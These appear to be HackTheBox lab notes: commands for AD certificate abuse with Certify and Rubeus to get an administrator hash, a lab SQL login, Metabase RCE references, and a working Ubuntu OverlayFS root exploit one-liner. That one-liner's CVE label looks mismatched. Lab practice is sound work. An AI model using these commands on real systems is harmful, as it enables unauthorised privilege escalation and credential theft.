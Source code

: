 ### Certify for Finding Vulnerabilities
- Upload `Certify.exe`
- Find Vulnerable Hosts: `.\Certify.exe find /vulnerable /currentuser`
- Request Certificate: `.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator`

### Certificate Manipulation
- Copy to `.pem`: `copy the certificate and paste it in the .pem file`
- Convert to `.pfx`: `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`

### Using Rubeus for TGT
- Get Admin Hash: `.\Rubeus.exe asktgt /user:administrator /certificate:C:\Users\Ryan.Cooper\Documents\cert.pfx`
- Show Hash: `.\Rubeus.exe asktgt /user:administrator /certificate:C:\Users\Ryan.Cooper\Documents\cert.pfx /getcredentials /show /nowrap`

### Evil-WinRM
- Usage: `evil-winrm -H`

### Additional Tools and Commands
- SQL Command: `sqsh -S 10.10.11.202 -U PublicUser -P "GuestUserCantWrite1"`
- HTB Lab: `[HackTheBox Lab](https://enterprise.hackthebox.com/academy-lab/4784/5017/modules/116/1169)`
- Check CA Certificate: `openssl s_client -showcerts -connect <ip or fqdn of your AD server>:636`
- Install Certipy-AD: `pip3 install certipy-ad`

## Metabase RCE Exploitation and Ubuntu OverlayFS Local Privilege Escalation

### Metabase RCE
- Target: `data.analytical.htb`
- CVE: [CVE-2023-38646](https://github.com/securezeron/CVE-2023-38646)
- Enumeration: `linpeas`
- Environment Variables: `env`

### Ubuntu OverlayFS Local Privilege Escalation
- OS Information: `cat /etc/os-release`
- CVE: [CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)
- Compile Exploit: `gcc exploit.c -o exploit`

#### Alternate Checks and Exploits

**Check for Vulnerability**
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```
#### Actual Exploit
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("chmod u+s /bin/bash")'

/bin/bash -p
```
